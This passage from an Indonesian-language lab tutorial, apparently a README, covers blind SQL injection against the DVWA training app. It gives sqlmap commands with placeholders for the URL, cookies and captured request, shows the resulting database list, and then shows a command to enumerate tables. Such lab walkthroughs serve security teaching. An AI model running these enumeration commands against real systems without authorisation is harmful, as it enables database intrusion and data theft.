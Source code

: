 4. Buka terminal dan jalankan command sqlmap berikut:
```
sqlmap -u "[url]" --cookie="[cookies]" --data="[request]" --dbms --batch
```
>Sesuaikan command dengan data yang didapatkan sebelumnya
>
>`[url]` = url dari laman DVWA yang saat ini dibuka 
>
>`[cookies]` = cookies yang telah di catat sesuai format
>
>`[request]` = raw request yang telah dicatat sesuai format 

![sqlmap1](src/blind_sqlmap1.png)
Didapatkan daftar database yang ada pada server
```
[*] dvwa
[*] information_schema
```

5. Ubah command sqlmap sebelumnya menjadi:
```
sqlmap -u "[url]" --cookie="[cookies]" --data="[request]" -D dvwa --tables --batch
```
>command di atas akan menampilkan tabel yang ada dalam database dvwa
